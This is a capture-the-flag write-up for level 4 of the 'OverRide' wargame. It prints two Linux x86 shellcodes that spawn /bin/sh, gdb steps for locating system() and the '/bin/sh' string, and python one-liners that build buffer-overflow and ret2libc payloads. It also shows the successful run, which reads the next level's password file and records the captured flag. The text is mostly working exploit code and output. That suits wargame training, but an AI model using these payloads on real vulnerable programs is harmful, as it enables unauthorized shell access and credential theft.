 # LEVEL4

shellcode  (24) :

```
\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80
```

shellcode (45) :
```
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

follow Child
```
set follow-fork-mode child
```

buffer-overflow : `156`

command python
```
python -c 'print("\x90" * 111 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\xc0\xd6\xff\xff")'
```

```
run < /tmp/test
```

all syscall 32bits
```
https://github.com/torvalds/linux/blob/v4.17/arch/x86/entry/syscalls/syscall_32.tbl#L17
```

ret2libc
```
https://beta.hackndo.com/retour-a-la-libc/
---------------------

[ buffer permettant d'atteindre l'overflow ] [ Adresse system() ] [ Adresse retour ] [ Adresse "/bin/sh" ]
```

find address system
```
Breakpoint 1, 0x080486c9 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

find /bin/sh
```
(gdb) find __libc_start_main,+99999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```


ret2libc command
```
python -c 'print("\x90" * 156 + "\xd0\xae\xe6\xf7" + "AAAA" + "\xec\x97\xf8\xf7")'

```

Result :
```
level04@OverRide:~$ (python -c 'print("\x90" * 156 + "\xd0\xae\xe6\xf7" + "AAAA" + "\xec\x97\xf8\xf7")'; cat) | ./level04 
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

flag :
```
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```